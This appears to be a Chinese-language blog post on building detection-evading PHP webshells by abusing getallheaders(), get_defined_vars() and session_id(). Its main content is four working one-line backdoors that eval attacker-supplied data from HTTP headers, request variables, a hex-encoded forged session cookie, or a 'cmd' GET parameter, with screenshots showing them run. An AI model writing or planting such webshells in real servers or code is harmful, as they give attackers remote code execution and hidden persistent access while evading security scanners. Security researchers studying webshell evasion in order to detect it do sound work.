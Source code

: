 ```yaml
---

title: "PHP利用Apache、Nginx的特性实现免杀Webshell"
date: 2019-01-25T21:20:47+08:00
lastmod: 2019-01-25T21:20:47+08:00
draft: false
tags: ['apache','nginx','shell','bypass']
categories: ['code']
comment: true
---
```


`get_defined_vars()`、`getallheaders()`是两个特性函数，我们可以通过这两个函数来构造我们的webshell。
前几天看到的，一直忘记写，填坑。
<!--more-->

|  环境  |         函数         |               用法               |
| :----: | :------------------: | :------------------------------: |
| nginx  | `get_defined_vars()` | 返回由所有已定义变量所组成的数组 |
| apache |  `getallheaders()`   |     获取全部 HTTP 请求头信息     |

## apache环境

```php
<?php
eval(next(getallheaders())); 
?>
```

![](https://y4er.com/img/uploads/20190509161475.jpg)

## apache和nginx环境通用

```php
<?php
eval(implode(reset(get_defined_vars())));
?>
```

![](https://y4er.com/img/uploads/20190509164784.jpg)
另外一种通过执行伪造的sessionid值，进行任意代码执行。

```php
<?php
eval(hex2bin(session_id(session_start())));
?>
```

![](https://y4er.com/img/uploads/20190509166713.jpg)

`706870696e666f28293b`这个是`phpinfo();`的hex编码。

## 给shell加密码

```php
<?php eval(get_defined_vars()['_GET']['cmd']);?>
```

